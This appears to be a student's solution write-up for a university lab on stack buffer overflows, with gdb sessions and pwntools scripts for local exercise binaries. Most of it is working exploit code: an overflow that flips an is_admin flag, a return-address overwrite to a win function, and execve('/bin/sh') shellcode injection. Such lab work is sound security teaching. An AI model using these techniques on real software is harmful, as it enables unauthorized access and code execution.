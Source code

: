 # Laborator 2

## Solution to [Q1]:
If I have a boolean `is_admin` and an input buffer that stores a name, and I input more characters than the buffer can hold, the overflow could overwrite the `is_admin` value in memory. This might set `is_admin` to `true`, potentially giving unauthorized admin access.

## Solution to [Q2]:
The `password` buffer is 8 characters long, but if we enter more than 8 characters (for example, `aaaaaaaa1`), the extra character (`1`) overflows the buffer and can overwrite the adjacent `is_admin` variable in memory. This sets `is_admin` to `1`, which the program interprets as granting admin access, bypassing the password check.

## Solution to [Q3]:
```
$ make ex1
$ echo -n 'aaaaaaaa1' > input
$ gdb -q
pwndbg> file ./bin/ex1
pwndbg> b main
pwndbg> run < input
pwndbg> n
pwndbg> n
pwndbg> x/10gx $rsp
```

```python
0x7fffffffdca0: 0x6161616161616161      0x0000000000000031
0x7fffffffdcb0: 0x00007fffffffdd50      0x00007ffff7dcf1ca
0x7fffffffdcc0: 0x00007fffffffdd00      0x00007fffffffddd8
0x7fffffffdcd0: 0x0000000100400040      0x0000000000401176
0x7fffffffdce0: 0x00007fffffffddd8      0x9de42ea233c29359
```

At address `0x7fffffffdca0`, we see the `password` buffer containing `0x6161616161616161` (which represents "aaaaaaaa"). In the next 8 bytes, at `0x7fffffffdca8`, we find `0x0000000000000031`, which corresponds to `is_admin`. This has been modified to a non-zero value (`1`), indicating that our overflow was successful.

## Solution to [Q4]:
```python
#!/usr/bin/env python3

from pwn import *

target = process("./bin/ex2")

payload = b"A" * 8 + p64(0xDEADBEEF)
print(payload)

target.send(payload)
target.interactive()
```

```
[+] Starting local process './bin/ex2': pid 962
b'AAAAAAAA\xef\xbe\xad\xde'
[*] Switching to interactive mode
```

```
$ echo -ne 'AAAAAAAA\xef\xbe\xad\xde' | ./bin/ex2
Access granted!
```

## Solution to [Q5]:
```python
from pwn import *
import os

context.binary = './bin/ex3'
pattern = cyclic(100)
p = process('./bin/ex3')
p.sendline(pattern)
p.wait()
core_path = f"/tmp/core.{os.path.basename(context.binary.path)}.{p.pid}.11"
core = Core(core_path)
crash_addr = core.fault_addr

offset = cyclic_find(crash_addr)
print("Offset: ", offset)
```
```
Offset:  56
```

```
$ gdb ./bin/ex3
pwndbg> p win
$1 = {int ()} 0x401156 <win>
```

```python
from pwn import *

exe = './bin/ex3'
p = process(exe)

win_addr = p64(0x401156)
padding = b'A' * 56
payload = padding + win_addr

p.sendline(payload)
p.interactive()
```

## Solution to [Q6]:
```c
int execve(const char *pathname, char *const _Nullable argv[], char *const _Nullable envp[]);
```

First argument is a `const char`.

## Solution to [Q7]:
We find the address of `/bin/sh` at runtime:
```python
jmp get_binsh       

start:
    pop rdi         
    xor rsi, rsi    
    xor rdx, rdx    
    mov rax, 59         # 59 is the linux system call for execve
    syscall

get_binsh:
    call start          # pushes the string onto the stack
    .string "/bin/sh"   
```

```python
#!/usr/bin/env python3

from pwn import *
import os

context.update(arch='amd64', os='linux')
context.binary = './bin/ex4'
target = process('./bin/ex4')

shellcode = asm('''
    jmp get_binsh
start:
    pop rdi
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 59
    syscall
get_binsh:
    call start
    .string "/bin/sh"
''')

# find the offset using the script from [Q5]
padding = b'A' * (264 - len(shellcode))
payload = padding + shellcode

target.recvuntil(b'Buffer at ')
buffer_address = int(target.recvline().strip(), 16)

payload += p64(buffer_address + len(padding))

target.send(payload)
target.interactive()
```
